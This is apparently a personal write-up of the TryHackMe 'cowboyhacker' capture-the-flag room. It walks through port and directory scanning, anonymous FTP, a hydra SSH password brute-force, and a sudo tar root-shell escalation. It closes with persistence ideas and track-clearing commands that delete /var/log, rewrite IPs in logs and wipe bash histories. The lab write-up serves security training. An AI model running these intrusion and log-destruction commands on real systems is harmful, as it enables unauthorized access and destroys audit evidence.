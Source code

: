 ```yaml
---
title: "THM:cowboyhacker"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/cowboyhacker"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,ftp,hydra,apache,ubuntu,privesc,sudo
breadcrumbs:
  - text: Home
    url: /
  - text: Writeups
    url: /writeups/
  - text: cowboyhacker
---
```

cowboyhacker

URL: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker) [Easy]


<hr>

## Reconnaissance

Description of the room:

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Scanning

### Scan: `nmap`

Ran the following:

> `nmap -vv xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Scan: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

This resulted in two directories being found:

* `/images/` - only images.
* `/server-status` - got `403 Forbidden`.

*Also see: [gobuster.log](gobuster.log)*

## Gaining Access


### FTP Service

Since FTP was running, we log in as `anonymous`:

> `ftp anonymous@xxx.xxx.xxx.xxx`

After doing a directory listing with `ls` or `dir`, we see there are two files there: `locks.txt` and `task.txt`. We retrieve these files back down to our workstation:

> `mget *.txt ./`

This does a (multiple)-get of `*.txt` files and puts them in our current directory on the workstation. The two files:

* [locks.txt](locks.txt)
* [task.txt](task.txt)

### Cracking SSH password for `lin`

We know from the `task.txt` file that the username is `lin`. The contents of `locks.txt` look at lot like leet-speak passwords. So, we can use hydra to see if any of those are the password for the `lin` account:

> `hydra -l lin -P ./locks.txt ssh://10.10.47.229`

And we find that one is found:

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-19 21:01:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.47.229:22/
[22][ssh] host: 10.10.47.229   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-19 21:02:04
```

*Also see: [hydra.log](hydra.log)*

With that username and password, we can SSH into the box:

> `ssh lin@xxx.xxx.xxx.xxx`

And we use the password `RedDr4gonSynd1cat3` found by hydra, above. We are now logged in as an **unprivileged account** and can retrieve the `~/user.txt` flag, the first flag for this room.

## PE: Sudo Privileges

Logged-in as user `lin`, we check to see if we have any `sudo` permission:

> `sudo -l`

We do! Oddly enough, it is for the `tar` command. We can go look up privesc techniques over on gtfobins:

> https://gtfobins.github.io/gtfobins/tar/#sudo

Using this technique, that means that as `tar` is running as root, we could coerce it to run a command upon a checkpoint. For example, it could open a new bash prompt. Since tar would be running as `root`, that bash prompt would be running as root. So, we execute the following:

> `sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

You see an error message, but **it does dump you at a root prompt!** From here, one can `cat /root/root.txt` to complete the room. That is the second flag to capture for this room.


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: `2022-01-19 21:18:28`